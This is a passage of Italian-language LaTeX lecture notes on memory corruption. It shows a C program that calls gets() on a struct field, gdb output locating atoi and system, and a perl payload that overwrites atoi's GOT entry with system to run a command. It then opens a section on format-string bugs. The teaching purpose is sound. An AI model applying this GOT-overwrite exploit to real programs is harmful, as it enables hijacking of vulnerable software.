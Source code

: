 \begin{figure}[h!]
    \centering
    \includegraphics[width=.5\linewidth]{res/GOT_corruption.png}
    \caption{}
\end{figure}

Supponiamo di avere il seguente codice:
\begin{lstlisting}[language=C]
    struct person{
        char age [4];
        char *name;
    };
    int main (...) {
        struct person p;
        p.name = malloc (20);
        gets(p.age);
        gets(p.name);
        if (atoi(p.age) < 18)
        printf("disclamer\n");
        return 0;
    }
\end{lstlisting}
Avremo il seguente comportamento:
\begin{lstlisting}[language=bash]
    gdb -q ./got

    (gdb) p atoi
    $1 = 0x80483f0 <atoi@plt >
    (gdb) r
    ^C
    (gdb) p system
    $1 = 0xb7e63310 <__libc_system >
    (gdb) q
\end{lstlisting}
Questo comportamento è sfruttabile per modificare l'indirizzo della funzione \textit{atoi} caricata nel .got.plt sostituendola con l'indirizzo di \textit{system} dalla libreria \textit{libc}:
\begin{lstlisting}[language=bash]
    perl -e 'print "id\x00\x00" ,\ 
    "\x24\xa0\x04\x08\n" ,\
    "\x10\x33\xe6\xb7"' | ./got

    uid =1000( vagrant) gid =1000( vagrant) groups =1000( vagrant) 
    disclamer
\end{lstlisting}
(\textbf{Ricorda:} sia \textit{atoi} sia \textit{system} hanno la stessa firma).
\begin{lstlisting}[language=C]
    int atoi(const char *nptr);
    int system(const char *command);
\end{lstlisting}

\subsection*{Memory corruption: string format}
La funzione \textbf{\textit{*printf}} può essere utilizzata per leggere o scrivere in modo arbitrario da un attaccante se posizionata nel posto sbagliato del codice.

